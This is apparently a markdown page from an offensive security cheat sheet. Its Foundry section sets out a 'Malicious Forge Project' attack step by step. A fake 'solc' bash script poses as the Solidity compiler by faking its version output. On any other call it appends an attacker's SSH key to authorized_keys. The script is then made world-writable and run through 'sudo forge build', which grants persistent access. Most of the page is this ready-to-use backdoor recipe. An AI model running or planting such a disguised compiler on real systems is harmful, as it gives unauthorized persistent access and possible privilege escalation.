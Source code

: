 # Blockchain

- [Resources](#resources)

## Table of Contents

- [Foundry](#foundry)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Foundry | Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust. | https://github.com/foundry-rs/foundry |

## Foundry

### Malicious Forge Project

#### Create Project

```console
$ forge init /PATH/TO/FOLDER/<FOLDER> --no-git --offline
```

#### Malicious Solidity Compiler (solc)

```bash
#!/bin/bash
if [[ $1 == "--version" ]]; then
    echo "solc, the solidity compiler"
    echo "Version: 0.8.17+commit.8df45f5f.Linux.g++"
else
    mkdir -p /home/<USERNAME>/.ssh
    echo "<SSH_KEY>" >> /home/<USERNAME>/.ssh/authorized_keys
    chmod 700 /home/<USERNAME>/.ssh
    chmod 600 /home/<USERNAME>/.ssh/authorized_keys
fi
```

#### Set Permission

```console
$ chmod 777 solc
```

#### Execution

```console
$ sudo forge build --use /PATH/TO/FILE/solc
```
